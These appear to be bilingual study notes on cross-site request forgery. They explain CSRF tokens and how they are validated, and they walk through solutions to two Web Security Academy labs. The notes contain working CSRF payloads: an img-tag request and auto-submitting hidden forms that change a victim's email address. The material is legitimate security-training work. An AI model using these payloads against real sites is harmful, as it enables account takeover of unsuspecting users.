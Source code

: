 # Cross-site request forgery (CSRF)

> Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy,
>  which is designed to prevent different websites from interfering with each other.


## What are CSRF tokens?

> A CSRF token is a unique, secret, unpredictable value that is generated by the server-side application and transmitted to the client in such a way that it is included in a subsequent HTTP request made by the client. When the later request is made, 
> the server-side application validates that the request includes the expected token and rejects the request if the token is missing or invalid.

***Puede ayudar a proteger contra XSS reflejados*** porque:

> CSRF tokens can prevent CSRF attacks by making it impossible for an attacker to construct a fully valid HTTP request suitable for feeding to a victim user. 
Since the attacker cannot determine or predict the value of a user's CSRF token, they cannot construct a request with all the parameters that are necessary for the application to honor the request.


## How should CSRF tokens be validated?

> When a CSRF token is generated, it should be stored server-side within the user's session data. When a subsequent request is received that requires validation, the server-side application should verify that the request includes a token which matches the value that was stored in the user's session. This validation must be performed regardless of the HTTP method or content type of the request. If the request does not contain any token at all, it should be rejected in the same way as when an invalid token is present.

## Como atacar 

> The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a web site that they control, and then induce victims to visit that web site. This might be done by feeding the user a link to the web site, via an email or social media message. Or if the attack is placed into a popular web site (for example, in a user comment), they might just wait for users to visit the web site.

Por ejemplo:

```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

```

Algunas ocaciones la aplicacion valida el TOKEN cuando se hace una peticion POST pero ***NO valida cuando se realiza una peticion GET***
Otras ocaciones la aplicaciones permiten hacer cosas sin el token asi que hay que probar.
Tambien otra vulnerabilidad es que la app usa un pool de tokens entonces tu podrias crearte un usuario obtener un token valido e intentar usarlo para otros usuarios.
Otro vector de ataque es que se asigna un token en base a la cookie.

> This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

# Labs

##  CSRF vulnerability with no defenses

Para este lab no se tiene defensas entonces con que la victima de click en un codigo como este:

```

<form method="POST" action="https://0a0d00b604a855c2c086536600b800d8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```

Se estaria cambiando su email.

## CSRF where token validation depends on request method

Para este ejemplo si cuenta la app con proteccion pero solo para el metodo post pero si lo intentas por el metodo GET si cambia el email aqui el ejemplo

```
<form method="GET" action="https://0a1f006e03d8dd12c0fe542800c400ba.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```
NOTA: Se puede utilizar la herramienta "csrf-poc-generator-master" para generar un poc de una peticion genera un script parecido.

